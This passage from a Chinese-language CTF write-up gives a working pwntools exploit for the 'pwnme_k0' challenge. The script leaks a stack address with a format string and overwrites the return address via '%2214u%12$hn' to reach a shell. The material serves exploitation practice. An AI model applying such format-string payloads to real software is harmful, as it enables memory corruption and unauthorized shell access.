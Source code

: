 这题的username我完全没用到，不过其实结合username更好用一些，不过<br>
为了练习”后入式“，我就写的麻烦一点。<br>
exp如下：

```
from pwn import *
# context.log_level = 'debug'
elf=ELF('./pwnme_k0')
p=process('./pwnme_k0')
# gdb.attach(p,'break *0x400B39')
p.recvuntil('Input your username(max lenth:20):')
p.sendline('a'*8)
p.recvuntil('Input your password(max lenth:20):')
p.sendline('%6$p')
p.recvuntil('&gt;')
p.sendline('1')
data=p.recvuntil('&gt;')
data=data.split('n')[1]
leak_addr=int(data,16)-0x38
# print hex(leak_addr)
p.sendline('2')
p.recvuntil('please input new username(max lenth:20):')
p.sendline('b'*8)
p.recvuntil('please input new password(max lenth:20):')
payload = "%2214u%12$hn"
payload += p64(leak_addr)
p.send(payload)
p.recvuntil('&gt;')
p.sendline('1')
p.interactive()
```

[![](https://p1.ssl.qhimg.com/t01338555e41d3d7c6a.png)](https://p1.ssl.qhimg.com/t01338555e41d3d7c6a.png)<br>[![](https://p1.ssl.qhimg.com/t0163c1cc45fd8aa3c1.png)](https://p1.ssl.qhimg.com/t0163c1cc45fd8aa3c1.png)



### <a class="reference-link" name="%E5%85%B6%E4%BB%96"></a>其他

在写payload的时候<br>
我一直把%2214u%12$hn数成11……然后一直GG。

```
sakura@ubuntu:~$ python -c 'print len("%2214u%12$hn")'
12
```

之所以做这道题。。是因为百度杯11月的一道pwn题和这题几乎一模一样…就拿来折腾下好了，不过那题没有system(‘/bin/sh’)可以利用。<br>
要考虑leak出来。<br>
格式化字符串大部分的利用姿势我都练到了，不过还是不够熟练，慢慢来呗~
